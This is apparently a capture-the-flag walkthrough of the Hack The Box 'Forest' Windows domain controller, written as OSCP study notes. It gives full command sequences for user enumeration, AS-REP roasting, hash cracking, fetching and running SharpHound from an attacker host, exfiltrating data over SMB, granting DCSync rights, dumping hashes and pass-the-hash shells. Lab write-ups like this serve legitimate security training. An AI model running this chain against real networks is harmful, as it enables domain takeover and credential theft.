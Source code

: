 ## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP.md)

## 🛰️ Recon

### Full TCP Port Scan
```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.161
```

### Targeted Script Scan
```bash
nmap -sC -sV -p 53,88,135,139,389,445,464,593,636,3268,3269,5985,9389 -oA scans/nmap-tcpscripts 10.10.10.161
```

### UDP Scan
```bash
nmap -sU -p- --min-rate 10000 10.10.10.161
```

---

## 🌲 Domain Discovery

### [DNS](DNS) Enumeration
```bash
dig @10.10.10.161 htb.local
dig @10.10.10.161 forest.htb.local
dig axfr @10.10.10.161 htb.local
```

### Enumerating Users via [RPC](RPC.md)
```bash
rpcclient -U "" -N 10.10.10.161
```

```
rpcclient $> enumdomusers
rpcclient $> enumdomgroups
rpcclient $> querygroupmem 0x200
rpcclient $> queryuser 0x1f4
```

---

## 🧪 AS-REP Roasting

### Prepare User List
```bash
cat > users <<EOF
Administrator
andy
lucinda
mark
santi
sebastien
svc-alfresco
EOF
```

### Identify Vulnerable Users
```bash
for user in $(cat users); do
  GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user}
done
```

### Crack the Hash
```bash
hashcat -m 18200 svc-alfresco.kerb /usr/share/wordlists/rockyou.txt --force
```
##### Password: s3rvice

---

## 💻 Shell as `svc-alfresco`

### WinRM Access
```bash
evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice
```

### Capture User Flag
```powershell
type C:\Users\svc-alfresco\Desktop\user.txt
```

---

## 🩸 BloodHound + SharpHound

### Load SharpHound
```powershell
iex(New-Object Net.WebClient).DownloadString("http://10.10.14.18/SharpHound.ps1")
```

```
Invoke-BloodHound -CollectionMethod All -Domain htb.local -LdapUser svc-alfresco -LdapPass s3rvice
```

### Exfil via SMB
```powershell
net use \\10.10.14.18\share /u:df df
copy 202XXXXX_BloodHound.zip \\10.10.14.18\share\
net use /d \\10.10.14.18\share
```

---

## 🧭 Path to Domain Admin

### Add User to Exchange Group
```powershell
Add-DomainGroupMember -Identity 'Exchange Windows Permissions' -Members svc-alfresco
```

### Assign DCSync Rights
```powershell
$username = "htb\svc-alfresco"
$password = "s3rvice"
$secstr = ConvertTo-SecureString $password -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential $username, $secstr

Add-DomainObjectAcl -Credential $cred -PrincipalIdentity 'svc-alfresco' -TargetIdentity 'HTB.LOCAL\Domain Admins' -Rights DCSync
```

---

## 🔓 Dumping Administrator Hash

```bash
secretsdump.py svc-alfresco:s3rvice@10.10.10.161
```

---

## ⚙️ SYSTEM Shell

### Using Evil-WinRM
```bash
evil-winrm -i 10.10.10.161 -u administrator -H <NTLM hash>
```

### Or with wmiexec
```bash
wmiexec.py -hashes :<NTLM hash> htb.local/administrator@10.10.10.161
```

### Capture Root Flag
```powershell
type C:\Users\Administrator\Desktop\root.txt
```

---

## 🧠 Beyond Root

- DCSync requires TCP 135, 445, and a high RPC port (like 49667).
- There’s a cleanup scheduled task (`revert.ps1`) that resets `svc-alfresco`’s password and group memberships every 60 seconds.
- You must move quickly between adding to Exchange Windows Permissions and running `Add-DomainObjectAcl`.

---

https://youtu.be/LcROWwoyOxU?feature=shared

https://www.youtube.com/watch?v=H9FcE_FMZio